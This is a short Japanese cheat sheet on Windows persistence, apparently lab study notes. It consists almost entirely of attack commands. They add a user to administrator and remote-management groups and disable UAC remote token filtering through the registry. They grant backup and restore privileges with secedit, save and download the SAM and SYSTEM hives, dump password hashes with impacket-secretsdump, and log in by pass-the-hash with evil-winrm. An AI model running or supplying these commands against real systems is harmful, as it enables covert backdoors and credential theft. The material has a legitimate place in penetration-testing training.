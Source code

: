 # 永続化（Windows）

永続化とは、疑惑を持たれずにできるだけ長い間検出されずにシステムにバックドアを仕掛ける技術。

## グループ

```ps
# ユーザーを管理者グループに入れる
net localgroup administrators <user> /add

# バックアップ操作グループに入れる。WinRMも付与
net localgroup "Backup Operators" <user> /add
net localgroup "Remote Management Users" <user> /add

# リモート接続時にUACによって管理者権限をはく奪される機能を無効にする
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## 権限

```ps
# 現在の権限を一時ファイルにエクスポート
secedit /export /cfg config.inf

# 権限の場所にユーザーを追加し、ファイル保存
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,thmuser2
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,thmuser2

# 変換、インポート
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```

## ハッシュダンプ

```ps
# SAM ファイルと SYSTEM ファイルのバックアップを作成
reg save hklm\system system.bak
reg save hklm\sam sam.bak

# ダウンロード（Evil-WinRM）
download system.bak
download sam.bak

# パスワードハッシュのダンプ
impacket-secretsdump -sam sam.bak -system system.bak LOCAL

# Pass-the-Hash でログイン
evil-winrm -i <ip> -u <user> -H <hashvalue>
```
